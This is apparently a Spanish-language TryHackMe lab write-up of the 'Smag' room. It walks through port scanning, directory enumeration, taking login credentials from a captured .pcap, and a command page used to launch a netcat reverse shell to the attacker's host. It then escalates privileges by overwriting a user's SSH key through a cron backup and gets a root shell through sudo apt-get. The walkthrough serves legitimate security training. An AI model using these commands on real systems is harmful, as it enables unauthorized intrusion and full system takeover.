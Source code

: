 Bienvenidos a otra sala de tryhackme. Realizamos nuestro escaneo de puertos abiertos, enumeramos directorios ocultos y secuestramos un archivo .pcap para iniciar nuestro proceso de intrusion y haciendo pivoting entre usuarios hasta llegar al usuario raiz root abusandonos de `apt-get`

# Recon

Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.25s latency).
Scanned at 2023-07-05 01:00:30 EDT for 23s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap

```

Nuestro escaneo de nmap nos muestra los puertos ssh y http abiertos. Al navegar al sitio web no encontramos mucho por ver. Iniciamos busqueda de directorios ocultos con Gobuster.

```bash
gobuster dir -u http://IPTARGET -w /Path/Wordlists -t 100

=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://IPTARGET
[+] Threads      : 100
[+] Wordlist     : /usr/share/dirb/wordlists/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2023/07/05 01:03:42 Starting gobuster
=====================================================
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/mail (Status: 301)
/server-status (Status: 403)
=====================================================
2023/07/05 01:04:41 Finished

```

Descubrimos el direcotiro /mail que al navegar en el habra un archivo .pcap que al investigarlo podemos encontrar un paquete de logeo http en el que secuestramos sus credenciales y lo dirigimos a la URL donde se ingreso.
Para hacer esto, agregamos la URL a /etc/hosts de nuestra maquina atacante con su IP correspondiente

```bash
sudo nano /etc/hosts

IPTARGET development.smag.thm
```

# Intrusion

Iniciamos sesion en /login.php de la web obtenida anteriormente, y entramos con las credenciales que secuestramos investigando el archivo .pcap. Nos dirigira a /admin.php donde nos solicita que ejecutemos un comando. 

En nuestra maquina atacante, atraparemos trafico IMCP y nos autolanzamos un PING para ver si funciona y poder realizar una reverse shell del sistema.

```bash
 # En nuestra maquina atacante
sudo tcpdump -i tun0 icmp -n -v

 # En el navegador web
ping LHOST -c 10

 # Resultado tcpdump
tcpdump: listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
01:21:31.548771 IP (tos 0x0, ttl 63, id 48715, offset 0, flags [DF], proto ICMP (1), length 84)
    IPTARGET > LHOST: ICMP echo request, id 851, seq 5, length 64
01:21:31.548787 IP (tos 0x0, ttl 64, id 6874, offset 0, flags [none], proto ICMP (1), length 84)
    LHOST > IPTARGET: ICMP echo reply, id 851, seq 5, length 64
01:21:32.549788 IP (tos 0x0, ttl 63, id 48869, offset 0, flags [DF], proto ICMP (1), length 84)
    IPTARGET > LHOST: ICMP echo request, id 851, seq 6, length 64
01:21:32.549815 IP (tos 0x0, ttl 64, id 6921, offset 0, flags [none], proto ICMP (1), length 84)
    LHOST > IPTARGET: ICMP echo reply, id 851, seq 6, length 64
01:21:33.550906 IP (tos 0x0, ttl 63, id 48970, offset 0, flags [DF], proto ICMP (1), length 84)
    IPTARGET > LHOST: ICMP echo request, id 851, seq 7, length 64
01:21:33.550926 IP (tos 0x0, ttl 64, id 7042, offset 0, flags [none], proto ICMP (1), length 84)
    LHOST > IPTARGET: ICMP echo reply, id 851, seq 7, length 64
01:21:34.551937 IP (tos 0x0, ttl 63, id 49076, offset 0, flags [DF], proto ICMP (1), length 84)
    IPTARGET > LHOST: ICMP echo request, id 851, seq 8, length 64
01:21:34.551956 IP (tos 0x0, ttl 64, id 7139, offset 0, flags [none], proto ICMP (1), length 84)
    LHOST > IPTARGET: ICMP echo reply, id 851, seq 8, length 64

```

Podemos ver que si funciono. Ahora nos pondemos en escucha en nuestra maquina atacante y ejecutamos una reverse shell en el servidor web.

```bash
 # Maquina atacante
nc -nvlp LPORT

 # Servidor Web
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 'LHOST' 'LPORT' >/tmp/f
```

# Priv.Escalation

Dentro del sistema, enumeramos las tareas cron `cat /etc/crontab` y hay una tarea programada en la ruta /opt/.backups con la id_rsa.pub del usuario jake.

Para realizar este proceso, primero nos generamos una clave id_rsa nueva en nuestra maquina atancate sin necesidad de poner una password. Luego, copiamos nuestro id_rsa.pub que acabamos de generar y lo pegamos dentro del sistema donde esta alojado el id_rsa.pub de jake de la siguiente manera:

```bash
 # En nuestra maquina atacante

ssh-keygen

Enter file in which to save the key (/home/ggh/.ssh/id_rsa): id_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 

 # Copiamos el contenido del archivo id_rsa.pub que nos acaba de generar y lo sobreescribimos en el id_rsa.pub de jake.

echo "Content-Id_rsa.pub(Atacante)" > jake_id_rsa.pub.backup
```

Ahora establecemos una conexion ssh como usuario jake. Modificamos los permisos de nuestra id_rsa a 600 con chmod.

```bash
chmod 600 id_rsa
ssh -i id_rsa jake@IPTARGET
```

Ya accedimos como usuario jake, ahora listamos los permisos de superusuario con `sudo -l`. Tiene permisos en **apt-get** en el que ejecutamos el siguiente comando y nos dara una shell con privilegios elevados de usuario raiz root.

```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

Informacion sacada de https://gtfobins.github.io/gtfobins/apt-get/